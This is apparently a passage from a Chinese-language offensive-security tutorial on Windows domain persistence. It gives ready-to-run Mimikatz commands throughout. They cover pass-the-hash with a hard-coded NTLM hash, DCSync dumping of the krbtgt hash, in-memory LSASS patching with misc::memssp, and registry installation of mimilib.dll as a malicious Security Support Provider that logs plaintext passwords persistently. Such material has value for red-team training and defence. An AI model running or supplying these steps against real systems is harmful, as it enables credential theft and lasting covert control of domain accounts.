 ```powershell
sekurlsa::pth /domain:main /user:test /ntlm:73265a93b877df146cf06d08ffa673e8
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516144658.png)

最后可以使用Mimikatz的 scysnc功能远程转储krbtgt的NTML Hash

```powershell
lsadump::dcsync /domain:main.com /dc:DC /user:krbtgt
```

## 7. SSP

SSP(**Security Support Provider**)是Windows操作系统安全机制的提供者。简单地说，SSP是个`DLL`文件，主要用来实现Windows操作系统的身份认证功能，例如`NTLM`、`Ketberos`,`Negotiare`.`Seure Channe`(Schannel )、`Digest`、`Credental`( CredSSP )。

SSPI ( **Security Support Provider Interfce**.安全支持提供程序接口)是Windows操作系统在执行认证操作时使用的API接口。可以说，SSPI是SSP的API接口。

LSA( **Local Security Authority**)，用于身份认证，常见进程为 lsass.exe

如果获得了网络中目标机器的System权限，可以使用该方法进行持久化操作。其主要原理是: LSA (`Local Security Authority`)用于身份验证;`lsass.exe `作为Windows的系统进程，用于本地安全和登录策略;在系统启动时，SSP 将被加载到`lsass.exe`进程中。但是，假如攻击者对LSA进行了扩展，自定义了恶意的DLL文件，在系统启动时将其加载到`lsass.exe`进程中，就能够获取`lsass.exe`进程中的明文密码。这样，即使用户更改密码并重新登录，攻击者依然可以获取该账号的新密码。

使用 mimilib SSP

### 7.1通过内存更新留后门（临时）

由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

```powershell
privilege::debug
misc::memssp
```

注销用户之后，可以访问`C:\Windows\System32\mimilsa.log`，会有日志文件

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001105.png)

### 7.2 通过注册表更新后门(永久)

项目[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)提供了一个DLL文件（mimilib.dll），可以将其放到与LSASS进程（System32）相同的位置，以便为访问受感染主机的任何用户获得纯文本凭据。

如下：

```powershell
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa" /v "Security Packages" /t REG_MULTI_SZ   /d  "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib.dll"
```

> 这里踩了一个坑，当路径已经到达末尾时，后面不要有`\`，否则会进行转义，如下：

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001445.png)
